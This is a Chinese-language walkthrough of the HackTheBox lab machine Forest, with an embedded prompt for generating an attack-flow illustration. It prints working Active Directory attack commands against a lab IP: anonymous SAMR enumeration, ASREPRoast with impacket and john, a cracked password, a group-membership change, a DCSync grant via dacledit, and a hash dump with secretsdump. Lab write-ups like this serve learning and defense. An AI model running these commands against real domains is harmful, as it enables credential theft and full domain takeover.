

Forest 真正的题眼不是 ASREPRoast，而是那个被爆出来的服务账户 svc-alfresco 经过组嵌套落进了 Account Operators：由此能改写 Exchange 安装时留下、对域根握有 WriteDacl 的 Exchange Windows Permissions 组，把一个普通服务账户一路抬到 DCSync。

## 简要流程图

把下面这段丢进 codex TUI（`Use $ian-xiaohei-illustrations …`）跑出 `flow.png`，放到本目录。

```text
请使用 $ian-xiaohei-illustrations 技能（github.com/helloianneo/ian-xiaohei-illustrations 的小黑 Xiaohei 风格），为下面这篇 HackTheBox 靶机 writeup 生成一张"攻击流程图"（attack-flow diagram），构图类型采用该仓库 composition-patterns 中的 "Workflow / 地图路线"。

【靶机名称】
Forest

【有序攻击步骤（从入口到最终提权，按顺序列出）】
rustscan 端口扫描（识别域控） → 匿名 SAMR 枚举域用户 → ASREPRoast 破解 svc-alfresco 口令 → bloodhound 发现 svc-alfresco 经组嵌套属于 Account Operators → 将 svc-alfresco 加入 Exchange Windows Permissions 组 → 借该组对域根的 WriteDacl 自授 DCSync 权限 → DCSync 导出域管理员哈希，拿下域控

【构图要求】
- 把以上步骤画成一条清晰的单向路径：步骤少时从左到右，步骤多横向放不下时改为从上到下。整体只前进不绕圈、不交叉。
- 路径上每个节点配一个简短的手写中文标注，写明该步骤所用的技术/工具/漏洞名称，每条 2-8 字，全图标注总数控制在 5-8 处以内。
- 小黑（黑色实心小人、白色圆点眼睛、细腿、面无表情）必须是路径上真正在"动手"的角色（翻墙、撬锁、爬梯子、拆结构、搬箱子），对应各步骤性质，不能站在旁边当装饰。
- 起点和终点要有明确视觉区分（起点画门/墙表示外部立足点，终点画箱子/王冠/旗帜表示最终权限），关键突破点各配一个贴合技术含义的小隐喻（权限提升=爬梯子，密码破解=撬锁，横向移动=走独木桥）。

【视觉风格（严格遵循 style-dna）】
- 纯白背景，不要纹理、渐变、阴影。
- 黑色手绘线稿为主，线条带轻微手抖感，像做技术的人在白纸上随手画的草图；不要商业插画、PPT 信息图、正式流程图、卡通风格。
- 主体占画面 40%-60%，至少保留 35% 留白。
- 颜色只用黑（主体结构）、橙（流程走向/箭头）、红（风险点/关键漏洞）、蓝（补充说明）四色，克制使用。
- 画面左上角不要放分类标题文字。

【输出要求】
- 横版 16:9，直接调用图像生成工具产出真实图片，不要只用文字描述。
- 保存为 PNG，文件名：flow.png。
- 生成完成后回复文件的完整保存路径。
```


## 文字版流程

1. 立足：匿名 SAMR 枚举域用户，对无需预认证的 svc-alfresco 做 ASREPRoast，离线爆破得口令 `s3rvice`。
2. 侦察：bloodhound 显示 svc-alfresco 经嵌套组属于 Account Operators，对 Exchange Windows Permissions 有 GenericAll。
3. 提权：把自己加进 Exchange Windows Permissions，凭该组对域根的 WriteDacl 自授 DCSync，导出 Administrator 哈希。

BloodHound 里的关键路径：

```
svc-alfresco -[MemberOf]-> Account Operators -[GenericAll]-> Exchange Windows Permissions -[WriteDacl]-> htb.local
```

## 正文细节

### 0x01 信息收集

rustscan 打完是一套标准域控指纹，从 SMB 和 LDAP 入手。

```bash
rustscan -u 5000 -a 10.129.24.190
```

```
Open 10.129.24.190:53
Open 10.129.24.190:88
Open 10.129.24.190:135
Open 10.129.24.190:139
Open 10.129.24.190:389
Open 10.129.24.190:445
Open 10.129.24.190:464
Open 10.129.24.190:593
Open 10.129.24.190:5985
Open 10.129.24.190:9389
Open 10.129.24.190:47001
（外加 49664+ 一组 msrpc 动态端口）
```

88（Kerberos）、389（LDAP）、445（SMB）、5985（WinRM）齐全，是域控。Forest 的入口在于它对匿名会话开得很宽。

### 0x02 立足：匿名枚举 + ASREPRoast

先拿域用户名清单。DC 默认允许匿名做部分 SAMR/LDAP 查询，没有用户名就没有 ASREPRoast 的攻击面，所以这一步是前提而不是可选。分别试 RID Cycling 和 SAMR，RID 走不通，SAMR 能列出域用户：

```bash
netexec smb 10.129.24.190 -u '' -p '' --rid-brute   # 走不通
netexec smb 10.129.24.190 -u '' -p '' --users       # SAMR，列出域用户
```

拿到用户名后上 [ASREPRoast](/tags/asreproast/)。原理是：账户若勾了"不要求 Kerberos 预认证"，AS-REQ 不带密钥也能换回一段用该账户口令派生密钥加密的 AS-REP，离线爆破这段密文即可还原明文口令。svc-alfresco 正是这样一个账户。

```bash
impacket-GetNPUsers 'htb.local'/ -usersfile users.txt -no-pass -dc-ip 10.129.24.190
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

口令在 rockyou 里，爆出 `svc-alfresco:s3rvice`。完整过程见下方录制：



### 0x03 提权：Account Operators → Exchange Windows Permissions → DCSync

svc-alfresco 到域管这段，bloodhound 这条链就是全靶的核心：



svc-alfresco 通过 `Service Accounts`、`Privileged IT Accounts` 两层嵌套，最终是 `Account Operators` 的成员。三个环节各自解释了下一步为什么成立：

- Account Operators 是内置特权组，能管理非保护组的成员关系，而它对 `Exchange Windows Permissions` 有 GenericAll，所以 svc-alfresco 能把自己塞进这个组。
- `Exchange Windows Permissions` 是 Exchange 安装时创建的组，对域对象 `htb.local` 握有 WriteDacl。这是 @dirkjanm 记录的经典 Exchange 提权面：能改域的 DACL，就能给任意主体授予复制权限。
- 拿到复制权限后 DCSync 直接导出所有账户哈希。

先用 Account Operators 的 GenericAll 把自己加进组，再验证加入成功：

```bash
net rpc group addmem "Exchange Windows Permissions" "svc-alfresco" -U "htb.local"/"svc-alfresco"%"s3rvice" -S 10.129.24.190
net rpc group members "Exchange Windows Permissions" -U "htb.local"/"svc-alfresco"%"s3rvice" -S 10.129.24.190
```

进组后凭该组对域根的 WriteDacl，给 svc-alfresco 自己写入 DCSync 复制权限：

```bash
dacledit.py -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=HTB,DC=LOCAL' -dc-ip 10.129.24.190 'htb.local'/'svc-alfresco':'s3rvice'
```

[DCSync](/tags/dcsync/) 通过目录复制协议 DRSUAPI 向 DC 请求账户密码，等于把自己当成一台域控来同步数据，Administrator、krbtgt 的哈希一并落地：

```bash
secretsdump.py 'htb.local'/'svc-alfresco':'s3rvice'@'10.129.24.190'
```

整段提权一次打通：



## 参考链接

1. [The Hacker Recipes - ASREPRoast](https://www.thehacker.recipes/ad/movement/kerberos/asreproast)
2. [The Hacker Recipes - DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync)
3. [dirkjanm - Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
